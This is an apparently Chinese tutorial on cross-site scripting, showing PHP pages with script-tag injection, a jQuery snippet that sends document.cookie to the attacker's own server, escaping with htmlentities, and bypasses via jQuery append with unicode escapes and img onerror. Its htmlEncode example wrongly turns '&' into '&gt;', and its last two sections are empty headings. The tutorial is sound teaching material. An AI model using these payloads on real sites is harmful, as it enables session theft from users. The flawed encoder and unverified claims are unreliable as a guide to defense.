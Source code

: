 
## 概念

XSS是最常见的一种web攻击方式，它指的是恶意用户把代码注入到其他用户要访问的网站中。

站在前端的角度，可以理解为将js代码注入。

```php
<?php
    $username="鹏仔";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
    </head>
    <body>
        <div>
            用户名：<?php echo $username;?>
        </div>
    </body>
</html>
```

如果你的用户名，起名称的时候，带上script标签呢？我们知道，浏览器遇到html中的script标签的时候，会解析并执行标签中的js脚本代码，那么如果你的用户名称里面含有script标签的话，就可以执行其中的代码了。代码如下：

```php
<?php
    $username="<script>alert('侯医生');</script>";
?>
```

如果你将自己的用户名设定为这种执行脚本的方式，再让别人去访问你的连接的话，就可以达到在他人web环境中，执行自己脚本的效果了。我们还可以使用ajax，将其他用户在当前域名下的cookie获取并发送到自己的服务器上。这样就可以获取他人信息了。比如，刚刚咱们使用的不是alert而是，如下的代码：

```javascript
$.ajax({
    url: '自己的服务器',
    dataType: 'jsonp',
    data: {'盗取的用户cookie': document.cookie}
});
```

再在各个QQ群中，散播自己的空间，引诱别人来访问。就可以拿到用户在这个域名下的cookie或者其他隐私了。

## 防范

最简单的解决方法，就是将输出数据进行转义。

比如，上述的XSS攻击的本质，就是因为浏览器遇到了`<script>`标签，然后才会执行其中的脚本。

因此，我们只需要对`<script>`标签进行转义，则浏览器就不会执行其中的恶意脚本。

```php
<?php
    $username="<script>alert('鹏仔');</script>";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
    </head>
    <body>
        <!--我们将输出的后端变量，转义之后再输出，则可以避免被注入代码-->
        <div>
            用户名：<?php echo htmlentities($username);?>
        </div>
    </body>
</html>
```

虽然，成功防止了恶意脚本的执行，但是标签还是会显示出来，影响用户体验。

> 在 Node.js 中，可以用 htmlEncode() 。
```js
function htmlEncode(str) {
    var s = "";
    if (str.length == 0) return "";  
    s = str.replace(/&/g, "&gt;");
    s = s.replace(/</g, "&lt;");
    s = s.replace(/>/g, "&gt;");
    s = s.replace(/ /g, "&nbsp;");
    s = s.replace(/\'/g, "&#39;");
    s = s.replace(/\"/g, "&quot;");
    s = s.replace(/\n/g, "<br>");
    return s;
}
```

## 升级版XSS

### apend的利用

通常情况下，直接给innerHTML添加一段js脚本，是无法执行的。

但是，jQuery中的`append()`方法却可以实现。这是因为，`append()`会把要添加的内容先用`eval()`执行一遍。

而且，由于`append()`底层是通过innerHTML实现的，而innerHTML会把要添加的内容中的unicode码转化为字符实体。二者综合就能产生奇妙的效果了：

```php
<?php
    $username="\u003cscript\u003ealert('ok');";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
        <script src="https://ss0.bdstatic.com/5aV1bjqh_Q23odCf/static/superman/js/lib/jquery-1.10.2_d88366fd.js"></script>
    </head>
    <body>
        <div>
            用户名：<?php echo htmlentities($username); ?>
        </div>
        <div>版权所有：<span id="username_info"></span></div>
        <script>
            $('#username_info').append("<?php echo htmlentities($username); ?>");
        </script>
    </body>
</html>
```

虽然，我们对输出的数据进行了转义，但是转义函数却无法识别经过伪装的`<script>`标签，最终js脚本还是会执行。

### image标签的利用

img标签，在加载图片失败的时候，会调用该元素上的onerror事件。黑客正可以利用这种方式来进行攻击。

```php
<?php
    $username="<script>alert('侯医生');</script>";
    $imgsrc="\" onerror=\"javascript:alert('鹏仔');\"";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
    </head>
    <body>
        <div>
            用户名：<?php echo htmlentities($username);?>
        </div>
        <div>
            这个是图片：<img src="<?php echo $imgsrc;?>" />
        </div>
    </body>
</html>
```

此时的源码已经变为--src为空，但是onerror的时候，执行注入代码。

### 组合攻击


## 升级版防范策略













